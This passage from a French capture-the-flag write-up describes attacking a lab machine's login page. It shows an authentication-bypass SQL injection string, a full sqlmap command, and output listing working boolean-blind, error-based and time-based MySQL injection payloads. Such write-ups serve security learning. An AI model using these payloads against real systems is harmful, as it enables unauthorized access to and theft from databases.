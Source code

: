 Le script existe bien sûr le serveur, c'est une mire de login. Quelques essais rapides montrent que la page est vulnérable à une faille SQL et qu'on peut bypasser l'authentification avec `1' or '1'='1`.

Une fois connecté, on n'a cependant aucune marge de manœuvre, car la page est vide, on va donc dumper la base avec sqlmap dans l'espoir de trouver une info utile.

```console
$ sqlmap -u http://192.168.56.109/login.php --data "user=toto&pass=TOTO" --risk 3 -level 5 --dbms mysql
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.5#pip}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting

[16:33:42] [INFO] testing connection to the target URL
[16:33:43] [INFO] checking if the target is protected by some kind of WAF/IPS
[16:33:43] [INFO] testing if the target URL content is stable
[16:33:43] [INFO] target URL content is stable
[16:33:43] [INFO] testing if POST parameter 'user' is dynamic
[16:33:43] [WARNING] POST parameter 'user' does not appear to be dynamic
[16:33:43] [INFO] heuristic (basic) test shows that POST parameter 'user' might be injectable (possible DBMS: 'MySQL')
--- snip ---
[16:34:04] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'user' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 665 HTTP(s) requests:
---
Parameter: user (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: user=toto' OR NOT 9349=9349-- mlDp&pass=TOTO

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: user=toto' AND (SELECT 1371 FROM(SELECT COUNT(*),CONCAT(0x716a707a71,(SELECT (ELT(1371=1371,1))),0x716b627171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- hzcN&pass=TOTO

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=toto' AND (SELECT 9031 FROM (SELECT(SLEEP(5)))ORoF)-- DrFe&pass=TOTO
---
[16:34:07] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```
